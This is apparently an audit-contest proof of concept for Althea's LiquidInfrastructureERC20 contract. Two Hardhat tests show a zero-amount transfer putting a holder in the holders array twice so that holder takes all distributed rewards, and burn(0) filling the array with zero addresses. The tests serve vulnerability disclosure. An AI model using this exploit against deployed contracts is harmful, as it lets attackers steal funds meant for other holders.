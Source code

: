 ## Proof of Concept
```solidity
it("malicious user can add himself to holders array multiple times and steal rewards", async function () {
    const { infraERC20, erc20Owner, nftAccount1, holder1, holder2 } = await liquidErc20Fixture();
    const nft = await deployLiquidNFT(nftAccount1);
    const erc20 = await deployERC20A(erc20Owner);

    await nft.setThresholds([await erc20.getAddress()], [parseEther('100')]);
    await nft.transferFrom(nftAccount1.address, await infraERC20.getAddress(), await nft.AccountId());
    await infraERC20.addManagedNFT(await nft.getAddress());
    await infraERC20.setDistributableERC20s([await erc20.getAddress()]);

    const OTHER_ADDRESS = '0x1111111111111111111111111111111111111111'

    await infraERC20.approveHolder(holder1.address);
    await infraERC20.approveHolder(holder2.address);

    // Malicious user transfers 0 to himself to add himself to the holders array
    await infraERC20.transferFrom(OTHER_ADDRESS, holder1.address, 0);

    // Setup balances
    await infraERC20.mint(holder1.address, parseEther('1'));
    await infraERC20.mint(holder2.address, parseEther('1'));
    await erc20.mint(await nft.getAddress(), parseEther('2'));
    await infraERC20.withdrawFromAllManagedNFTs();

    // Distribute to all holders fails because holder1 is in the holders array twice
    // Calling distribute with 2 sends all funds to holder1
    await mine(500);
    await expect(infraERC20.distributeToAllHolders()).to.be.reverted;
    await expect(() => infraERC20.distribute(2))
        .to.changeTokenBalances(erc20, [holder1, holder2], [parseEther('2'), parseEther('0')]);
    expect(await erc20.balanceOf(await infraERC20.getAddress())).to.eq(parseEther('0'));
});

it("malicious user can add zero address to holders array", async function () {
    const { infraERC20, erc20Owner, nftAccount1, holder1 } = await liquidErc20Fixture();

    for (let i = 0; i < 10; i++) {
        await infraERC20.burn(0);
    }
    // I added a getHolders view function to better see this vulnerability
    expect((await infraERC20.getHolders()).length).to.eq(10);
});
```

## Lines of code
https://github.com/code-423n4/2024-02-althea-liquid-infrastructure/blob/main/liquid-infrastructure/contracts/LiquidInfrastructureERC20.sol#L142-L145
https://github.com/code-423n4/2024-02-althea-liquid-infrastructure/blob/main/liquid-infrastructure/contracts/LiquidInfrastructureERC20.sol#L214-L231
